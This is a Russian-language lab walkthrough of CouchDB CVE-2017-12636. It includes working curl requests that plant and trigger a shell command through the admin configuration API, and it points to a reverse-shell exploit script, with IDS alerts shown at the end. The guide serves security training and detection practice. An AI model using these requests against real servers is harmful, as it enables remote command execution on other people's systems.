

# CVE-2017-12636

Пользователи с ролью администратора CouchDB могут настраивать сервер базы данных через HTTP(S). Некоторые параметры конфигурации включают пути к исполняемым файлам на уровне операционной системы, которые впоследствии запускаются CouchDB. Это позволяет администратору в Apache CouchDB до версии 1.7.0 и 2.x до версии 2.1.1 выполнять произвольные команды оболочки от имени пользователя CouchDB, включая загрузку и выполнение скриптов из интернета.

### Материалы:

* [https://www.opencve.io/cve/CVE-2017-12636](https://www.opencve.io/cve/CVE-2017-12636)
* [https://nvd.nist.gov/vuln/detail/CVE-2017-12636](https://nvd.nist.gov/vuln/detail/CVE-2017-12636)
* [https://docs.couchdb.org/en/stable/cve/2017-12636.html](https://docs.couchdb.org/en/stable/cve/2017-12636.html)

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/couchdb/CVE-2017-12636

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

Для эксплуатации уязвимости выполнения произвольных команд, используйте инструкцию к [CVE-2017-12635](../containers/couchdb/cve-2017-12635.md) для создания пользователя с ролью администратора

<figure><figcaption></figcaption></figure>

#### Эксплоит для версии 1.x

Последовательно отправьте следующие запросы, чтобы реализовать уязвимость выполнения произвольного кода

```
curl -X PUT 'http://vulhub:vulhub@ваш-ip:5984/_config/query_servers/cmd' -d '"id >/tmp/success"'
curl -X PUT 'http://vulhub:vulhub@ваш-ip:5984/vultest'
curl -X PUT 'http://vulhub:vulhub@ваш-ip:5984/vultest/vul' -d '{"_id": "770895a97726d5ca6d70a22173005c7b"}'
curl -X POST 'http://vulhub:vulhub@ваш-ip:5984/vultest/_temp_view?limit=10' -d '{"language": "cmd", "map":""}' -H 'Content-Type: application/json'
```

Где vulhub:vulhub - это учетная запись и пароль администратора.

Первый запрос добавляет query\_servers с именем cmd и значением "id >/tmp/success" - это команда, которую мы собираемся выполнить.

Второй и третий запросы добавляют базу данных и документ, к которому можно будет обращаться только после того, как он будет добавлен.

Четвертый запрос - это выполнение запроса в этой базе данных, используется query\_servers с именем cmd, который был добавлен на первом шаге, и, наконец, выполнение команды.

Помимо эксплуатации "вручную" есть [скрипт](https://github.com/vulhub/vulhub/blob/master/couchdb/CVE-2017-12636/exp.py), автоматизирующий получение обратной оболочку уязвимого хоста.

Для получения шелла измените ip-адрес уязвимой машины в переменной "target" и ip-адрес и порт машины, на которую вы хотите получить обратную оболочку в переменной "command", поставьте listener на выбранный порт и запустите скрипт

<figure><figcaption></figcaption></figure>

В Wazuh ([https://ваш-ip/app/wazuh](https://xn---ip-5cdj7k/app/wazuh)) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации CouchDB RCE

<figure><figcaption></figcaption></figure>
